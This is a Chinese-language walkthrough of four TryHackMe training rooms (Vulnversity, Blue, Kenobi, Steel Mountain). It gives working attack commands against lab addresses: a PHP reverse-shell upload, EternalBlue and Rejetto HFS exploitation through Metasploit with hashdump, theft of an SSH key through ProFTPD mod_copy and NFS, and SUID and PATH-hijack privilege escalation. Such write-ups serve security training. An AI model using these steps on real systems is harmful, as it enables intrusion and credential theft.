








0x01 vulnversity漏洞
侦查
nmap扫描目标机
Nmap 是一个免费、开源且功能强大的工具，用于发现计算机网络上的主机和服务。在我们的示例中，我们使用 Nmap 扫描该计算机以识别特定端口上运行的所有服务。 Nmap 有很多功能；下面的表格总结了其一些功能。
| Nmap | Description |
|---|---|
| -sV | 尝试确定正在运行的服务的版本 |
| -p or -p- - | 端口扫描端口 |
| -Pn | 禁用主机发现并扫描开放端口 |
| -A | 启用操作系统和版本检测，执行内置脚本以进行进一步枚举 |
| -sC | 使用默认 Nmap 脚本扫描 |
| -v | 详细模式 |
| -sU | UDP端口扫描 |
| -sS | TCP SYN端口扫描 |

这里看文章hint说是，利用-O参数进行扫描，如下图所示，反而还不如上面的-sV选项有用（上面明确说是ubuntu OS）

使用gobuste扫描目录
使用名为 Gobuster 的快速目录发现工具，您将找到可用于上传 shell 的目录。让我们首先扫描网站以查找任何隐藏的目录。为此，我们将使用 Gobuster。
Gobuster 是一个用于暴力破解 URI（目录和文件）、DNS 子域和虚拟主机名的工具。对于这台机器，我们将重点使用它来暴力破解目录。
在这里下载 Gobuster，或者如果您使用的是 Kali Linux，请运行 sudo apt-get install gobuster
首先，您需要一个 Gobuster 的单词列表（它将用于快速浏览单词列表以确定公共目录是否可用。如果您使用 Kali Linux，您可以在 /usr/share/wordlists 下找到许多单词列表）您还可以在 AttackBox 中使用位于 /usr/share/wordlists/dirbuster/directory-list-1.0.txt 的目录的单词列表。
现在让我们使用 gobuster dir -u http://10.10.127.89:3333 -w
| Gobuster flag | Description |
|---|---|
| -e | 在控制台中打印完整的 URL |
| -u | 目标网址 |
| -w | 单词列表的路径 |
| -U and -P | 基本身份验证的用户名和密码 |
| -p |
用于请求的代理 |
| -c |
指定一个 cookie 来模拟您的身份验证 |
gobuster dir -u http://10.10.127.89:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt入侵网络服务器
现在您已经找到了上传文件的表单，我们可以利用它来上传并执行我们的有效负载，这将导致网络服务器受到损害。
我们将使用 Intruder（用于自动化定制攻击）。首先，创建一个具有以下扩展名的单词列表：
- .php
- .php3
- .php4
- .php5
- .phtml
现在确保 BurpSuite 配置为拦截所有浏览器流量。上传一个文件;一旦捕获该请求，将其发送给入侵者。单击“有效负载”并选择“狙击手”攻击类型。
现在单击“位置”选项卡，找到文件名并“添加§”到扩展名。它应该看起来像这样：
这里我还因为后缀被url编码导致一直出错。。。。现在我们知道可以为有效负载使用什么扩展，我们就可以继续前进了。
我们将使用 PHP 反向 shell 作为我们的有效负载。反向 shell 的工作原理是在远程主机上调用并强制该主机与您建立连接。因此，您将侦听传入的连接，上传并执行 shell，这将向您发出控制信号！
在此处下载以下反向 PHP shell。
要远程访问此计算机，请按照下列步骤操作：
- 编辑 php-reverse-shell.php 文件并将 ip 编辑为您的 tun0 ip（您可以通过在 TryHackMe 连接设备的浏览器中访问 http://10.10.10.10 来获取此信息）。
- 将此文件重命名为 php-reverse-shell.phtml
- 我们现在将使用 netcat 监听传入连接。运行以下命令：nc -lvnp 1234
- 上传您的 shell 并导航到 http://10.10.127.89:3333/internal/uploads/php-reverse-shell.phtml - 这将执行您的有效负载
- 您应该在 Netcat 会话上看到一个连接
权限提升
现在您已经入侵了这台机器，我们将升级权限并成为超级用户（root）。
在 Linux 中，SUID（执行时设置所有者 userId）是赋予文件的一种特定类型的文件权限。 SUID 向用户授予临时权限，以在文件所有者（而不是运行它的用户）的许可下运行程序/文件。
例如，用于更改密码的二进制文件具有设置了 SUID 位 (/usr/bin/passwd)。这是因为要更改密码，它将需要写入您无权访问但 root 有权访问的 shadow 文件，因此它具有 root 权限来进行正确的更改。
搜索的命令为：find / -perm -u=s -type f 2>/dev/null
这里的手法可以参考：https://gtfobins.github.io/gtfobins/systemctl/以及 权限提升 | 带SUID的命令提权
这里思路就是将/bin/bash命令赋值到tmp临时目录下，并且给该目录增加+s root权限，以至于后续可以以root的身份执行，不至于无权访问，当然这里也能写上bash反弹shell
这里也补充一个东西，找到www-data可以写入的目录
find / -type f -maxdepth 2 -writable
find / -type d -maxdepth 2 -writable总结
这道题目思路是先常规nmap扫描，发现敏感端口，接着访问web站点，测试一波功能点发现文件上传，接着fuzz可以上传的后缀，发现phtml可以上传，之后就是上传可以反弹shell马，拿到shell之后，就是提权了，这里用到的就是suid提权。
0x02 blue挑战
侦查
扫描并了解该机器容易受到哪些攻击。请注意，该计算机不响应 ping (ICMP)，并且可能需要几分钟才能启动。这个房间并不是一个 boot2root CTF，而是一个针对完全初学者的教育系列。除了基本练习之外，专业人士在这个房间里可能不会得到什么，因为这里的过程是针对初学者的。
nmap -sV -p- -Pn -T4 10.10.176.146访问获取权限
利用机器并站稳脚跟。
提升权限
升级权限，了解如何在 Metasploit 中升级 shell。
上述可以看到存在SMB ms17-010漏洞，这里选择永恒之蓝来利用
设置好相关参数，即可直接run
拿到shell之后，我们退到后台，尝试将该反弹shell转换为meterpreter类型的shell
搜寻一番可以发现该模块：post/multi/manage/shell_to_meterpreter
如下图所示，设置相关参数
直接run运行，之后会看到新增一个会话
切换到会话3，并且看到我们当前的权限就是system（NT AUTHORITY\SYSTEM）
通过命令“shell”打开 dos shell 并运行“whoami”。这应该表明我们确实是一个系统。之后将此 shell 置于后台并再次选择我们的 meterpreter 会话以供使用。
列出通过“ps”命令运行的所有进程。仅仅因为我们是系统并不意味着我们的流程是。在此列表底部找到一个在 NT AUTHORITY\SYSTEM 运行的进程，并记下进程 ID（最左列）。
如上图，这里我选择2652的进程id
使用“migrate PROCESS_ID”命令迁移到此进程，其中进程 ID 是您刚刚在上一步中记下的 ID。这可能需要多次尝试，迁移过程不是很稳定。如果失败，您可能需要重新运行转换过程或重新启动计算机并再次启动。如果发生这种情况，请下次尝试不同的过程。
这里也是尝试了多个进程，发现很多都显示没有权限，2912恰好符合
破解
转储非默认用户的密码并破解它！
在我们提升的 meterpreter shell 中，运行命令“hashdump”。只要我们有正确的权限，这就会转储计算机上的所有密码。非默认用户的名称是什么？
这里可以用john或者在线网站破解
这里我了解了一下上述NT格式的含义：--format=NAME
name指定密文格式,指定密文格式名称,为DES/BSDI/MD5/BF/AFS/LM指定使用某种密文格式进行破解
具体参考：https://doc.gui.run/docs/security_tools/security_tools-1e06j26453ols
寻找flag
找到这台机器上插着的三面旗帜。这些不是传统的标志，而是代表 Windows 系统中的关键位置。使用下面提供的提示来完成这个房间！
标志1：该标志可以在系统根目录中找到。
标志2：该标志可以在 Windows 中存储密码的位置找到。
勘误表：Windows 确实不喜欢此标志的位置，并且偶尔会删除它。在某些情况下，可能需要终止/重新启动计算机并重新运行漏洞利用程序才能找到此标志。这种情况相对罕见，但也有可能发生。
位置存在于Windows的system32下的config目录下
标志3：这面旗帜可以在一个绝佳的位置找到，可以进行掠夺。毕竟，管理员通常会保存一些非常有趣的东西。
总结
依旧是nmap扫描，发现敏感端口445，联想到永恒之蓝，直接msf exploit，发现成功，接下来为了方便，想办法将该shell转变为meterpreter shell，选择post中的某个模块，成功转换，接着就是提权，采用migrate 进程ID来提权，迁移进程成功之后，就提升了权限，接下来就是找敏感文件：比如根目录、Windows\system32\config目录，以及用户对应的document目录
0x03 Kenobi挑战
有关利用 Linux 机器的演练。枚举 Samba 共享、操纵 proftpd 的易受攻击版本并通过路径变量操纵来升级您的权限。
本会议室将介绍访问 Samba 共享、操纵 proftpd 的易受攻击版本以获得初始访问权限以及通过 SUID 二进制文件将您的权限升级为 root。
枚举Samba共享
Samba 是适用于 Linux 和 Unix 的标准 Windows 互操作程序套件。它允许最终用户访问和使用公司内部网或互联网上的文件、打印机和其他常用共享资源。它通常被称为网络文件系统。
Samba 基于服务器消息块 (SMB) 的通用客户端/服务器协议。 SMB 是专门为 Windows 开发的，如果没有 Samba，其他计算机平台就会与 Windows 机器隔离，即使它们是同一网络的一部分。
使用 nmap 我们可以枚举 SMB 共享的机器，Nmap 能够自动运行各种网络任务。有一个脚本可以枚举共享！
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.67.234SMB 有两个端口：445 和 139。
首先nmap常规扫描：nmap -sS -sV -p- -T4 10.10.67.234
这里有点不清楚，为何答案是7个端口，用了hint的 nmap命令，发现还真是7个，有点不理解（可能是我全端口扫描的缘故吧）
Samba监听端口有：TCP和UDP------tcp端口相对应的服务是smbd服务，其作用是提供对服务器中文件、打印资源的共享访问；udp端口相对应的服务是nmbd服务，其作用是提供基于NetBIOS主机名称的解析。
nmap有一个用于枚举SMB共享的脚本，使用 nmap，我们可以枚举一台机器的SMB 共享。
继续找SMB的共享：nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.67.234
#也可以使用以下命令：smbclient -L \\\\10.10.54.34\\使用smbclient命令，匿名连接目标机的SMB共享，查看共享系统上存在什么文件
smbclient //10.10.67.234/anonymous #这里不用输入密码直接进入即可看到这里存在一个log.txt文件。你可以使用smbget命令，通过匿名用户 递归地下载整个SMB 共享，共享系统中的文件将会被下载到本地
smbget smb://10.10.67.234/anonymous/log.txt这里的smbget命令出问题了，说是解析顺序不正确，看了文章去改配置文件smb.conf但是没找到相关选项，真是服了，看了官方文档也没有效果。这里我就无奈指定文件下载了，-R选项用不了。。。。
查看来自共享系统的log.txt文件内容，我们可以获取两个信息：
- 为Kenobi用户生成 SSH 密钥时的信息–Kenobi用户的ssh密钥–保存在/home/kenobi/.ssh路径下
- 有关 ProFTPD 服务器的信息（ 运行FTP服务的用户是 Kenobi）
之前的端口扫描显示了 端口111正在运行rpcbind服务，rpcbind是一个将远程程序调用(RPC-- remote procedure call)的程序号转换为通用地址的服务器。当一个RPC 服务启动时，它会告诉 rpcbind 它正在监听的地址以及它准备启用的服务所对应的RPC程序编号。
查看本例中端口111的nmap扫描信息，可以发现nfs（network file system）服务被远程启用，接下来尝试枚举nfs信息：
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.67.234使用 ProFtpd 获得初始访问权限
ProFtpd 是一个免费的开源 FTP 服务器，兼容 Unix 和 Windows 系统。在过去的软件版本中，它也容易受到攻击。
可以使用netcat来连接FTP服务，看其版本信息nc ip 21
我们可以使用 searchsploit 来查找特定软件版本的漏洞。Searchsploit 基本上只是 exploit-db.com 的命令行搜索工具。
ProFTPd 运行有多少漏洞？
我们可以看到，该版本ProFtpd的mod_copy模块中存在漏洞。
（mod_copy模块功能-参考链接：http://www.proftpd.org/docs/contrib/mod_copy.html ）
mod_copy模块实现了SITE CPFR 和 SITE CPTO 命令(类似于 RNFR 和 RNTO) ，这些命令可以用来将文件/目录从服务器上的一个地方复制到另一个地方，而无需将数据传输到客户端并等待返回（无身份验证），该模块包含在 ProFTPD 1.3.x 的 mod_copy.c 文件中，默认情况下不进行编译。
也就是说：任何未经身份验证的客户机都可以利用SITE CPFR 和 SITE CPTO 命令，将文件从FTP服务器的文件系统的任何位置复制到选定的位置。
由之前的信息我们知道：Kenobi是运行FTP服务的用户、Kenobi用户的ssh密钥保存路径。
现在我们将使用 SITE CPFR 和 SITE CPTO 命令复制Kenobi的ssh私钥，我们将私钥复制到NFS所挂载的目录下，后继我们就能获取到这个私钥文件：
#连接目标机的FTP服务器,FTP运行在21端口
nc 10.10.54.34 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa #将密钥复制到NFS所挂载的/var目录下然后让我们将目标机的/var/tmp 目录挂载到我们的攻击机上：
mkdir /mnt/kenobiNFS
mount 10.10.54.34:/var /mnt/kenobiNFS #此处的ip是目标机ip。完成挂载后：目标机的/var目录下的所有文件，都将在攻击机的/mnt/kenobiNFS目录下
ls -la /mnt/kenobiNFS复制Kenobi的ssh私钥到攻击机当前目录，然后使用ssh登录到 Kenobi 的帐户，查看标志性文件：
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.67.234 -oHostKeyAlgorithms=+ssh-rsa 这条命令是在Linux系统中使用OpenSSH客户端连接到远程主机的命令行语句。其中，每个参数的含义如下：
ssh：OpenSSH客户端命令，负责连接到远程主机并启动Shell。-i：指定使用哪个私钥文件进行身份认证。id_rsa：指定使用~/.ssh/id_rsa文件作为私钥。kenobi：远程主机的用户名。@：用户名和IP地址之间的分隔符。10.10.67.234：远程主机的IP地址。-o：指定连接选项。HostKeyAlgorithms：指定允许使用的主机密钥算法。+ssh-rsa：指定允许使用RSA签名密钥算法进行连接。
总之，这条命令的作用是使用指定的私钥(id_rsa)连接到远程主机(10.10.67.234)，并允许使用RSA签名密钥算法进行身份认证。
通过PATH变量提权
我们先了解SUID、SGID和SBIT(Sticky Bits)，这三个概念 我们在提权基础篇有详细讲解：
权限 在文件上 在目录上
SUID Bit 用户使用文件所有者的权限执行文件 -
SGID Bit 用户在组所有者的权限下执行该文件 在目录中创建的文件获取相同的组所有者。
Sticky Bit 无意义 阻止用户删除其他用户目录下的文件SUID位是很不安全的，一些二进制文件确实需要提高权限来运行才被赋予SUID位(如/usr/bin/passwd，因为你需要使用它以便在系统上重置个人密码)，但是其他具有 SUID 位的自定义文件可能会导致各种各样的问题。
要在目标机系统中搜索SUID/SGID类型的文件，请在目标机上运行以下命令：
find / -perm -u=s -type f 2>/dev/null找出看起来很不寻常的文件/usr/bin/menu ，并尝试执行它：
strings 是 Linux 上的一个命令，它能在二进制文件上查找人类可读的字符串，我们使用以下命令来查看/usr/bin/menu运行时的信息（因为执行menu命令时有文字回显，我们才使用strings命令）：
strings /usr/bin/menu观察上图可以得知：当我们执行/usr/bin/menu 时，选择选项1其实是在执行一个curl命令，选择选项2其实是在执行uname -r命令。
这表明二进制文件curl和uname，是在没有完整路径的情况下运行的(例如没有使用/usr/bin/curl 或/usr/bin/uname运行文件)。
我们已经知道/usr/bin/menu文件是一个SUID文件，它在执行时会暂时具有root 用户权限，我们可以尝试自定义创建一个curl文件（并写入/bin/bash，意思是打开一个bash shell），然后我们再给自定义的curl文件附加可执行权限（+x），接着将自定义的curl文件所在的路径添加到PATH变量中（这样能够保证我们自定义的curl文件能够被首先找到）。
完成以上操作之后，执行SUID文件/usr/bin/menu，产生的效果是：以root权限打开一个bash shell-----这将获得root shell
cd /tmp
echo /bin/bash > curl
chmod +x curl
export PATH=/tmp:$PATH #新添加的路径/tmp会在PATH变量的最前面，这样就能用我们伪造的curl文件代替真实的curl文件，保证自定义的curl文件被成功执行
/usr/bin/menu #在跳出选项时，我们选择选项1，这样就能调用到伪造的curl文件
ls /root/
cat /root/root.txt
总结
这里涉及的知识有点多：思路是nmap常规扫描，发现445和139端口暴露，接着尝试枚举Samba共享，发现存在三个共享的路径，并且其中有的可以匿名访问，访问成功之后，发现其中有个log.txt文件，下载下来发现其中含有kenobi用户的ssh秘钥以及ProFtpd信息。
接着利用端口111的rpcbind服务，发现该服务启动了nfs，之后枚举nfs发现存在2个可以远程共享访问的目录，看到第二个目录下存在的信息很多，尝试之后挂载该目录到我们本地上。接着看一下当前ftp服务对应版本，发现存在相关漏洞，利用该漏洞，直接将靶机的ssh秘钥文件下载到了我们要挂载的目录上。接着用nfs挂载到我们本地上之后，成功拿到ssh秘钥，接着ssh登录，之后就是提权了，不过这里用算是个环境变量劫持吧。
先是发现对方的suid文件中有一个可以的文件menu发现其中执行了curl的命令，然后我们尝试将/bin/bash写入到curl命令中，然后将该curl对应的路径提添加到环境变量最前面，就相当于命令替换了，接着运行menu文件（属主为root），相当于以root用户运行了/bin/bash，也就提权了
0x04 Steel Mountain挑战
闯入以机器人先生为主题的 Windows 机器。使用 metasploit 进行初始访问，利用 powershell 进行 Windows 权限提升枚举，并学习获取管理员访问权限的新技术。
在此聊天室中，你将枚举一台 Windows 计算机，使用 Metasploit 获得初始访问权限，使用 Powershell 进一步枚举该计算机，并将您的权限提升为管理员。
如果您没有合适的安全工具和环境，请部署您自己的 Kali Linux 机器，并使用我们的 Kali Room 在您的浏览器中对其进行控制。
请注意，此计算机不响应 ping （ICMP），可能需要几分钟才能启动。
初始访问
也是很迷惑，至今还是在摸索如何才能较为恰当的使用nmap扫描命令，感觉选的总不是最佳的，慢慢体会吧
nmap -Pn -sV -sC 10.10.97.69除了默认的80端口之外，目标站点还开放了8080端口提供http服务，查看8080端口的webserver页面：
可见这里的文件服务器是rejetto http file server
msfconsole -q #跳过提示语打开msf
search Rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.10.97.69
set RPORT 8080
set LHOST 10.11.81.232 #当使用OpenVPN连接到TryHackMe内网时，需要设置该选项为tun0地址
exploit #或者run
shell #由meterpreter shell界面进入Windows shell界面
cd C:\Users\bill\Desktop\
dir
more user.txt权限提升
现在，您在此 Windows 计算机上有一个初始 shell，即 Bill，我们可以进一步枚举该计算机并将我们的权限升级为 root！
现在我们在这台机器上有了一个初始 shell，我们可以进一步枚举操作系统信息并查看将权限升级到root的利用点，使用名为“ PowerUp”的 PowerShell 脚本来评估这台 Windows 机器并确定目标机是否存在任何异常和错误配置。
下载脚本到你的本地终端(注意不要使用命令行的形式下载这个脚本，而是复制脚本内容并新建一个ps1文件):
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
一旦脚本保存在本地，就可以通过 meterpreter shell 上传该脚本:（这里我直接git了github项目）
然后我们可以通过meterpreter会话来加载PowerShell扩展，并进入 PowerShell的shell界面并执行脚本:
load powershell
powershell_shell
Import-Module .\PowerUp.ps1
Invoke-AllChecksmeterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > Import-Moudle .\PowerUp.ps1
PS > Invoke-AllChecks
ServiceName : AdvancedSystemCareService9
Path : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubd
irectory}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path
CanRestart : True
Name : AdvancedSystemCareService9
Check : Unquoted Service Paths
ServiceName : AdvancedSystemCareService9
Path : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path
CanRestart : True
Name : AdvancedSystemCareService9
Check : Unquoted Service Paths
ServiceName : AdvancedSystemCareService9
Path : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
Permissions=System.Object[]}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path
CanRestart : True
Name : AdvancedSystemCareService9
Check : Unquoted Service Paths
ServiceName : AdvancedSystemCareService9
Path : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path
CanRestart : True
Name : AdvancedSystemCareService9
Check : Unquoted Service Paths
ServiceName : AWSLiteAgent
Path : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubd
irectory}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'AWSLiteAgent' -Path
CanRestart : False
Name : AWSLiteAgent
Check : Unquoted Service Paths
ServiceName : AWSLiteAgent
Path : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'AWSLiteAgent' -Path
CanRestart : False
Name : AWSLiteAgent
Check : Unquoted Service Paths
ServiceName : IObitUnSvr
Path : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubd
irectory}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'IObitUnSvr' -Path
CanRestart : False
Name : IObitUnSvr
Check : Unquoted Service Paths
ServiceName : IObitUnSvr
Path : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'IObitUnSvr' -Path
CanRestart : False
Name : IObitUnSvr
Check : Unquoted Service Paths
ServiceName : IObitUnSvr
Path : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
Permissions=System.Object[]}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'IObitUnSvr' -Path
CanRestart : False
Name : IObitUnSvr
Check : Unquoted Service Paths
ServiceName : IObitUnSvr
Path : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe;
IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'IObitUnSvr' -Path
CanRestart : False
Name : IObitUnSvr
Check : Unquoted Service Paths
ServiceName : LiveUpdateSvc
Path : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubd
irectory}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path
CanRestart : False
Name : LiveUpdateSvc
Check : Unquoted Service Paths
ServiceName : LiveUpdateSvc
Path : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path
CanRestart : False
Name : LiveUpdateSvc
Check : Unquoted Service Paths
ServiceName : LiveUpdateSvc
Path : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe;
IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path
CanRestart : False
Name : LiveUpdateSvc
Check : Unquoted Service Paths
